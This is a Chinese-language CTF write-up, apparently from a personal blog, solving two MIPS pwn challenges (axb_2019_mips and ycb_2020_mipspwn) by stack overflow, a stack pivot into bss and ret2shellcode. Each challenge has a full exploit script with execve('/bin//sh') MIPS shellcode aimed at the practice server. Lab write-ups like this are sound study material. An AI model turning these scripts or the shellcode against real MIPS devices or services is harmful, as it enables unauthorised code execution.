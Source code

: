 ```yaml
---
title: mips练习
tags:
	- mips
	- pwn
categories:
	- 做题笔记
cover: /img/紫发.png
---
```

# mips-题目练习

## 前言 

上次学mips的时候就打算在buuctf上写两道题目看看效果，巩固一下。但是当天buuctf不知道怎么回事，g掉了。写不了题目了，直到现在，才有时间写这两道题目。

这两道题目应该也是非常经典了，网上有很多对这个的分析，题解。mips的前置知识呢写在了其他博客里面，在这里就啰嗦了。直接上题目。

## axb_2019_mips

这是一道`ret2shellcode` 的题目，非常的经典. 因为mips架构,不会开启NX 和 ASLR,所以我们可以往栈上,写shellcode,栈地址空间每次也都是一样的.所以非常好绕,不用泄露信息什么的.

但是,因为远程环境和本地环境的区别,远程和本地的地址空间不一定一样.所以远程还是不能直接这么打.继续看题

### ida分析

![mian函数](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250814152019651.png)

非常简单的程序,没有什么利用点,看`vuln()`

![vuln函数](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250814152120201.png)

发现溢出漏洞了，可以修改返回地址，但是要看汇编确定`$ra`的位置。

![vuln函数汇编](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250814152621302.png)

说真的，有的时候看汇编比看伪代码好。通过这个代码段，我们也可以了解到mips架构调用函数的一个流程。

进入之后，先把`$sp`往上移动0x40,然后分别把`$ra`和`$fp`放在`$sp+0x3c`和`$sp+0x38` 的位置.

在read时,会往`$sp+0x18`的位置读入0x200字节.所以输入`0x20`字节数据后就可以覆盖`$fp`和`$ra`.

### 思路分析

1. 之前说过可以直接写shellcode在栈上,然后把返回地址设置成栈上的地址就可以了,这个在本地完全可以这么打,但是远程的栈地址和本地会不一样,也不要想着爆破.
2. 所以,我们转换思路,通过返回到read 函数,把shellcode 写到bss段上,在返回到bss段上执行,也是非常简便的方法.
3. 如何控制read 的buf呢?在`0x40080c`的位置,有两条指令,分别是从栈上取出保存的`$fp`和`$ra`,那么只要我们覆盖到这里,就可以控制,取出来之后的这两个寄存器. 同时注意到read 是通过`$fp`来计算buf 的,所以控制了`$fp`,就控制了buf.
4. 那么如何控制程序跳转到shllcode呢?或者说,第二次的返回地址应该写在哪呢?因为`$fp`和`$ra`都是通过`$sp`寻找的,所以要特别关注`$sp`的变化,发现在read的结束之后又一条指令`move $sp, $fp` ,这会是`$sp`移到`$fp`的位置,所以第二次的返回地址,写在第二次的payload里,计算好偏移即可.

### exp

```python
from esy import *
context.log_level="debug"
context.arch="mips"
#io=process(["qemu-mipsel","-L","/home/tsq/Desktop/iot/DIR-815/_DIR-815.bin.extracted/squashfs-root/","-g","1234","./pwn"])
io=remote("node5.buuoj.cn",26700)

name="a"*0x14
payload=b"a"*0x20+p32(0x00410B80+0x18)+p32(0x004007E0)
shellcode=asm('''
addiu $sp, -0x40
li $t7, 0x69622f2f
sw $t7, -12($sp)
li $t6, 0x68732f6e
sw $t6, -8($sp)
sw $zero, -4($sp)
la $a0, -12($sp)
li $v0, 4011
move $a1, $zero
move $a2, $zero
syscall
nop
''')

print(len(shellcode))

io.sendafter("name: \n",name)
sleep(3)
io.send(payload)
payload=b"a"*0x24+p32(0x00410Bb0+0x28)+shellcode
io.send(payload)

io.interactive()

```

## ycb_2020_mipspwn

一回生,二回熟.再次看到同样,或者类似的read就非常得心应手

### ida分析

![main函数](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250814164722957.png)

表面上是一个菜单,实际上核心只有description ,直接点进去看

![description](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250814164826325.png)

继续

![vul汇编](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250814164919324.png)

直接看汇编,除了偏移不一样,没有任何变化.和上一道题完全一样的方法

### 思路分析

1. 那我们想如何快速的计算出偏移呢?首先要确定fp 和 ra 的偏移,分别是0x50 和 0x54, 直接可以出来.然后是buf 的偏移,0x18.可以通过ida 反汇编看出来.
2. 所以要写0x38的垃圾数据.所以如果都用0x50+var_xxx这种形式,直接看buf,这里xxx是多少,就是写多少垃圾数据.非常快速的找到偏移.
3. 第二次shellcode 的偏移 也很好找.假设你第一次payload 设置的fp 是 bss_addr.那么第二次返回地址就是`p32(bss_add+0x18+0x40)`
4. 0x18 是, read时 的偏移. 0x40 是,前面的垃圾数据,假设这个地址本身的长度.因为我们都会把shellcode 写在这个地址的后面.

### exp

```python
from esy import *
context.log_level="debug"
context.arch="mips"
#io=process(["qemu-mipsel","-g","1234","./pwn"])
io=remote("node5.buuoj.cn",26779)

def menu(op):
	io.sendlineafter("choice: ",str(op))
bss=0x004115F0
name=b"a"*4
payload=b"a"*0x38+p32(bss+0x10)+p32(0x00400F50)
shellcode=asm('''
addiu $sp, -0x40
li $t7, 0x69622f2f
sw $t7, -12($sp)
li $t6, 0x68732f6e
sw $t6, -8($sp)
sw $zero, -4($sp)
la $a0, -12($sp)
li $v0, 4011
move $a1, $zero
move $a2, $zero
syscall
nop
''')

io.sendafter("here:\n",name)
menu(7)
io.sendafter("feeling:",payload)


payload=b"a"*0x3c+p32(bss+0x10+0x18+0x40)+shellcode
io.send(payload)

io.interactive()

```

## 后记

写两道题,对mips下的程序的一个调用一下就开朗了.对shellcode ,寄存器的运用也提高了,还是收获不小.这两道题上手也是非常的快. 

不过第一道题似乎需要uClibc,我是之前分析DIR-815固件时,binwalk提取出来这个libc ,我就直接用了.

第二道题直接给了uClibc,可以直接写.